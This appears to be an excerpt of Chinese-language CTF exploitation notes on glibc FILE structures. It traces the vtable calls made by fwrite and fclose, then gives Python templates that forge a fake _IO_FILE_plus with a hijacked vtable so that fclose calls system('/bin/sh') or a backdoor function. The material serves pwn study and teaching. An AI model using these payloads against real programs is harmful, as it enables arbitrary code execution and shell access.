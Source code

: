 fwrite 函数调用的vtable函数有：

- `_IO_fwrite`函数调用了vtable的`_IO_new_file_xsputn`。
- `_IO_new_file_xsputn`函数调用了vtable中的`_IO_new_file_overflow`实现缓冲区的建立以及刷新缓冲区。
- vtable中的`_IO_new_file_overflow`函数调用了vtable的`_IO_file_doallocate`以初始化输入缓冲区。
- vtable中的`_IO_file_doallocate`调用了vtable中的`__GI__IO_file_stat`以获取文件信息。
- `new_do_write`中的`_IO_SYSWRITE`调用了vtable`_IO_new_file_write`最终去执行系统调用write。

`fclose`函数调用的vtable函数有：

- 在清空缓冲区的`_IO_do_write`函数中会调用vtable中的函数。
- `_IO_SYSCLOSE`函数为vtable中的`__close`函数。
- `_IO_FINISH`函数为vtable中的`__finish`函数。

#### 替换思路

改函数指针我们可以填充为one_gadget,这样就不用考虑参数问题；若`one_gadget`的环境变量都不好使，可以考虑填充为system函数地址，传参的话，**多数vtable函数指针在被调用时，会将它的****`_IO_FILE_plus`****地址当作第一个参数传递**，所以我们可以将`_IO_FILE_plus`的`_flags`成员填成`“/bin/sh\x00”`,但这种方法通常也不好用，因为**调用vtable函数指针之前会对****`_IO_FILE_plus`****的结构进行检查**，通常改“/bin/sh\x00”之后会导致对`_flags`成员的检查不通过（亲测printf不行，但House of orange利用中出现的`_IO_flush_all_lockp`能检查通过）





利用场景：

fclose

劫持fp指针，伪造 _IO_FILE_plus 结构体。

- 32位需要伪造vtable
- 64位可以不伪造，绕过几个函数后，获得一次`call [rax + 0x10]`



32位调用`IO_FINISH(fp)`：_flags & 0x2000为0

```python
#注意flags字段，只需要_flags & 0x2000为0就会直接调用 IO_FINSH(fp)，IO_FINISH(fp)相当于调用fp->vtabl->__finish(fp)
#其中shell是后门函数
fake_file = "\x00" * 0x48 + p32(buf_add)
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(buf_add + 0x98 - 0x8)#fake_vtable_addr = buf_addr + 0x98 - 0x8
fake_file += p32(shell)
#不存在后门函数的情况
fake_file = "\x00" * 4 + ";sh" 
fake_file = fake_file.ljust(0x48,'\x00')+ p32(buf_add)
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(buf_add + 0x98 - 0x8)#fake_vtable_addr = buf_addr + 0x98 - 0x8
fake_file += p32(system)
```

32位调用`__fclose()`：\_flags & 0x2000不为0

```python
#_flags & 0x2000不为0最终会调用fp->vtabl->__fclose(fp)
fake_file = "/bin/sh\x00"
fake_file = fake_file.ljust(0x48,'\x00')
fake_file += p32(fake_lock_addr) # 指向一处值为0的地址
fake_file = fake_file.ljust(0x94, "\x00")
fake_file += p32(fake_vtable)#fake vtable address = buf_addr + 0x98 - 0x44
fake_file += p32(system)
```

